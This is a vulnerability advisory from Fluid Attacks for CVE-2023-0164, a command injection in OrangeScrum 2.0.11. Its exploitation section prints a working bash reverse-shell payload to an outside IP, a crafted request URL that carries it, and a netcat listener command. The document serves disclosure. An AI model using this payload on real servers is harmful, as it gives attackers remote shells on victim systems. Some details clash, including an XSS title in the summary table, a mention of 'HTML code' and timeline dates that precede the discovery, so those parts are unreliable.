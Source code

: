```yaml
---
slug: advisories/queen/
title: OrangeScrum 2.0.11 - OS Command Injection via projuniqid
authors: Carlos Bello
writer: cbello
codename: queen
product: OrangeScrum 2.0.11
date: 2023-01-16 12:00 COT
cveid: CVE-2023-0164
severity: 9.9
description: OrangeScrum 2.0.11 - OS Command Injection via projuniqid
keywords: Fluid Attacks, Security, Vulnerabilities, Orangescrum, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                      |
| --------------------- | ---------------------------------------------------- |
| **Name**              | OrangeScrum 2.0.11 - Reflected XSS via imgName       |
| **Code name**         | [Queen](https://en.wikipedia.org/wiki/Queen_(band))  |
| **Product**           | OrangeScrum                                          |
| **Affected versions** | 2.0.11                                               |
| **State**             | Public                                               |
| **Release Date**      | 2023-01-16                                           |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | OS Command Injection                                                                                   |
| **Rule**              | [404. OS Command Injection](https://docs.fluidattacks.com/criteria/vulnerabilities/404)                |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 9.9                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-0164](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0164)                          |

## Description

OrangeScrum version 2.0.11 allows an authenticated external attacker to
execute arbitrary commands on the server. This is possible because the
application injects an attacker-controlled parameter into a system
function.

## Vulnerability

This vulnerability occurs because the application injects an attacker-controlled
parameter into a system function.

## Exploitation

To exploit this vulnerability, we only need to send the following malicious HTML
code to an application user.

### Exploit

To exploit this vulnerability, we just need to send the malicious command we want
the server to execute through the projuniqid parameter using the `$()` syntax.

```bash
$(bash -i+>& /dev/tcp/67.205.165.158/3000 0>&1)
```

```txt
https://retr02332bughunter.orangescrum.com/log_times/download_pdf_timelog?projuniqid=$(bash+-i+>%26+/dev/tcp/67.205.165.158/3000+0>%261)&usrid=&date=&strddt=&enddt=&dt_format=d/m/y&checkedFields=date,usr_name,task_no,task_title,hours,description,start,end,break,billable
```

Thus, we will only have to execute the command `nc -lvp 3000` on the attacker's malicious
server to receive the reverse shell from the victim server.

## Evidence of exploitation

![vulnerability-code-orangescrum](https://user-images.githubusercontent.com/51862990/211672912-1eb574f6-20bb-475d-8303-f443ba156163.png)

![vulnerability-orangescrum](https://user-images.githubusercontent.com/51862990/211672802-e1fd6b44-1f5a-414f-8f27-5fbba9d40267.png)

![explotation-orangescrum](https://user-images.githubusercontent.com/51862990/211674614-e71238c4-0fe3-4029-bb71-15c35c46e0e2.gif)

![exploit-success-orangescrum](https://user-images.githubusercontent.com/51862990/211672619-a0006c75-3f39-4cfd-9791-af389d8a37f2.png)

## Our security policy

We have reserved the ID CVE-2023-0164 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: OrangeScrum 2.0.11

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Orangescrum/orangescrum/>

## Timeline

<time-lapse
  discovered="2023-01-10"
  contacted="2022-01-10"
  replied="2022-01-10"
  confirmed="2022-01-10"
  patched=""
  disclosure="2023-01-16">
</time-lapse>
